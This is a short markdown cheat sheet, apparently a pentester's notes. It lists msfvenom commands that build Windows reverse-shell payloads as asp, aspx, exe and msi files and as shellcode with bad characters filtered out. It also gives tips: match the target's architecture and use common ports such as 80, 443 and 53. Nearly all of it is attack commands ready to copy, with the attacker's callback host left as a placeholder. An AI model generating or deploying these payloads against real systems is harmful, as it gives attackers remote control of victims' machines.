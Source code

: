 # reverse shells

## tipps

- Specify architecture for windows reverse shells!
- Check windows version if its new its probably x64
- use commen ports such as 80, 443, 53

## windows

### generate asp reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=5555 -f asp > shell.asp
```

### generate exe reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o reverse.exe
```

### generate msi reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f msi -o reverse.msi
```

### generate windows rev shell without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -b "\x00\xotherchars" -f rb
```

### generate aspx reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=80 -f aspx > reverse.aspx
```
